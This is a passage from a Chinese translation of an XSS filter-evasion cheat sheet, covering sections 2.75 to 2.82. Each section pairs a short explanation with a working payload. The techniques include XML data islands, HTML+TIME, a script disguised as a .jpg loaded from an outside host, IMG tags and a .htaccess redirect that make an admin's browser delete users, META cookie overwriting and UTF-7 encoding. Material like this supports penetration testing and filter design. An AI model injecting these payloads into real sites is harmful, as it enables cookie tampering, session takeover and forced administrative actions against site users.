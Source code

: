 <SPAN DATASRC="#xss" DATAFLD="B" DATAFORMATAS="HTML"></SPAN>

2.75.    使用XML数据岛生成含内嵌JavaScript的本地XML文件
这和上面是一样的但是将来源替换为了包含跨站脚本攻击向量的本地XML文件（必须在同一服务器上）：

<XML SRC="xsstest.xml" ID=I></XML>

<SPAN DATASRC=#I DATAFLD=C DATAFORMATAS=HTML></SPAN>

2.76.    XML中使用HTML+TIME
这是Grey Magic攻击Hotmail和Yahoo的方法。这只在IE和IE渲染模式下的Netscape8.1有效并且记得需要在HTML域的BODY标签中间才有效：

<HTML><BODY>

<?xml:namespace prefix="t" ns="urn:schemas-microsoft-com:time">

<?import namespace="t" implementation="#default#time2">

<t:set attributeName="innerHTML" to="XSS<SCRIPT DEFER>alert("XSS")</SCRIPT>">

</BODY></HTML>

2.77.    使用一些字符绕过".js"过滤
你可以将你的JavaScript文件重命名为图像来作为XSS攻击向量：

<SCRIPT SRC="http://xss.rocks/xss.jpg"></SCRIPT>

2.78.    SSI（服务端脚本包含）
这需要在服务器端允许SSI来使用XSS攻击向量。似乎不用提示这点，因为如果你可以在服务器端执行指令那一定是有更严重的问题存在：



2.79.    PHP
需要服务器端安装了PHP来使用XSS攻击向量。同样，如果你可以远程运行任意脚本，那会有更加严重的问题：

<? echo('<SCR)';

echo('IPT>alert("XSS")</SCRIPT>'); ?>

2.80.    嵌入命令的IMAGE
当页面受密码保护并且这个密码保护同样适用于相同域的不同页面时有效，这可以用来进行删除用户，增加用户（如果访问页面的是管理员的话），将密码发送到任意地方等等。。。这是一个较少使用当时更有价值的XSS攻击向量：

<IMG SRC="http://www.thesiteyouareon.com/somecommand.php?somevariables=maliciouscode">

2.80.1. 嵌入命令的IMAGE II

这更加可怕因为这不包含任何可疑标识，除了它不在你自己的域名上。这个攻击向量使用一个302或304（其他的也有效）来重定向图片到指定命令。所以一个普通的<IMG SRC="httx://badguy.com/a.jpg">对于访问图片链接的用户来说也有可能是一个攻击向量。下面是利用.htaccess（Apache）配置文件来实现攻击向量。（感谢Timo提供这部分。）：

Redirect 302 /a.jpg http://victimsite.com/admin.asp&deleteuser

2.81.    Cookie篡改
尽管公认不太实用，但是还是可以发现一些允许使用META标签的情况下可用它来覆写cookie。另外的例子是当用户访问网站页面时，一些网站读取并显示存储在cookie中的用户名，而不是数据库中。当这两种场景结合时，你可以修改受害者的cookie以便将JavaScript注入到其页面中（你可以使用这个让用户登出或改变他们的用户状态，甚至可以让他们以你的账户登录）：

<META HTTP-EQUIV="Set-Cookie" Content="USERID=<SCRIPT>alert('XSS')</SCRIPT>">

2.82.    UTF-7编码
如果存在XSS的页面没有提供页面编码头部，或者使用了任何设置为使用UTF-7编码的浏览器，就可以使用下列方式进行攻击（感谢Roman Ivanov提供）。这在任何不改变编码类型的现代浏览器上是无效的，这也是为什么标记为完全不支持的原因。Watchfire在Google的自定义404脚本中发现这个问题：

<HEAD><META HTTP-EQUIV="CONTENT-TYPE" CONTENT="text/html; charset=UTF-7"> </HEAD>+ADw-SCRIPT+AD4-alert('XSS');+ADw-/SCRIPT+AD4-
